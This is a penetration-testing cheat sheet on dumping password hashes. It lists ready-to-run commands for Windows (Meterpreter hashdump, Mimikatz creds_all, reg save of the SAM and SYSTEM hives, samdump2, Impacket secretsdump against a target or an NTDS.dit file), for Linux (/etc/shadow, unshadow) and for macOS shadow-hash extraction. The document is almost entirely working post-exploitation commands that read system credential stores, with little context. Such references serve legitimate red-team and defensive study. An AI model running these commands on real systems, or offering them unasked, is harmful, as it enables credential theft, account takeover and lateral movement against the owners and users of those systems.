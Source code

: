 Dumping Hashes

# Dumping Hashes

## Windows: 

### Meterpreter HashDump

- run post/windows/gather/hashdump

### Meterpreter Mimikatz (Post Exploitation must be executed from SYSTEM privileges)

- load mimikatz
- creds_all

DUMP LSA SECRETS
- lsadump.py sys_backup.hiv sec_backup.hiv

DUMP LOCAL PASSWORD HASHES

- pwdump.py sys_backup.hiv sec_backup.hiv

### reg.exe 

```
reg save HKLM\sam sam
reg save HKLM\system system
```

### samdump2

```
samdump2 SYSTEM SAM > hashes.db
```

### Impacket Tools: 

Scretsdump.py script does require a pwned user account on the target machine. 
```
$ sudo python3 secretsdump.py domain.local\username:password@<target_IP>
```
or
```
secretsdump.py -ntds ~/Extract/ntds.dit -system ~/Extract/SYSTEM -hashes lmhash:nthash LOCAL -outputfile ntlm-hashes
```
If you have the NTDS.dit file and the SYSTEM hive: 
```
secretsdump.py -ntds /root/ntds_cracking/ntds.dit -system /root/ntds_cracking/systemhive LOCAL
```

---

## Linux

Requires Root Privileges

- `cat /etc/shadow`

- `cp /etc/passwd` and `/etc/shadow`
- `unshadow passwd shadow > unshadowed`

---

##  OSX

10.5-10.7

- dscl localhost -read /Search/Users/<username>|grep GeneratedUID|cut -c15-cat
/var/db/shadow/hash/<GUID> | cut -c169-216 > osx_hash.txt

10.8-10.12

- sudo defaults read /var/db/dslocal/nodes/Default/users/<username>.plist ShadowHashData|tr -dc ‘
0-9a-f’|xxd -p -r|plutil -convert xml1 - -o -

---

### Other Resources: 

- Lsassy: https://github.com/Hackndo/lsassy